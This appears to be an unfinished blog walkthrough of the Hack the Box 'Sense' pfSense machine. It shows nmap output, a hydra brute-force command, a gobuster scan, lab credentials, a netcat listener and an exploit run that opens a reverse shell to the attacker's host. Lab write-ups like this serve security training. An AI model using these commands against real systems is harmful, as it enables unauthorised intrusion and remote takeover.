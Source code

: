 ```yaml
---
title: Sense - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sense.png
---
```

---
title: Sense(I) - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sense(I).png
---
---
title: 2024-10-12-Sense(I) - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sense(I).png
---
#manual #OpenBSD #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 14:04 EDT
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 63.82% done; ETC: 14:07 (0:01:15 remaining)
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.20 seconds

```

The scan gives us an initial and potentially our only attack vector via web. Solving this box, I know this is the case. In the future, though, I'd recommend running `nmap -sT` or `nmap -sU` coupled with `full` in order to tackle all TCP and UDP ports if you've got the time and means!
### Enumeration

![Image](/assets/Screenshot 2024-09-09 at 2.12.09 PM.png)

We're led to this login portal, and a few things to note here. The importance of default credentials goes without saying. Do your research. Also, be wary of exhausting attempts and forcing a lockout on a machine. Should you want to see as a POC, run:

````
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
````

You'll get stiffed after 15 attempts. After research, we find default credentials for the service are `admin` and `pfsense`, being USER/PASS. These do not work, and it forces us to enumerate web directories.

Using gobuster, we'll use:


```
gobuster dir -u https://10.10.10.60 -x php, txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -k
```

Where the `-x` denotes filetypes, and the `-k` tells gobuster to skip SSL verification. This machine hammers home the importance of intentional enumeration and patience. You have to know what it is you're looking for, and be willing to be patient in receiving it.


We can navigate to the directories that seem interesting. While perusing through, `system-users.txt` dropped some creds!

![Image](/assets/Screenshot 2024-09-09 at 2.24.51 PM.png)

Using these, we are able to gain access to the initial portal.

![Image](/assets/Screenshot 2024-09-09 at 2.26.21 PM.png)

Now that we've got more detailed information about versions, lets cross check with `searchsploit`.

![Image](/assets/Screenshot 2024-09-09 at 2.29.08 PM.png)

This one detailing versions before 2.1.4 seems to be a good pick. We can move it to our present directory by using: `searchsploit -m 43560.py`. Now let's see what's happening under the hood.

![Image](/assets/Screenshot 2024-09-09 at 2.33.16 PM.png)

The `status_rrd_graph_img.php` is vulnerable to command injections. The script seems to be passing the shell through parameters in the function, and it's our job to catch it with a listener. So, lets set one up.

`rlwrap nc -nlvp 4321`

Once again, the `rlwrap` establishes control with the arrow keys in the shell granted.

`python3 43560.py --lhost 10.10.14.3 --lport 4321 --rhost 10.10.10.60 --username rohit --password pfsense
`
This will configure our parameters for passing the shell through the header with the python script.





### Initial Access
### Privilege Escalation

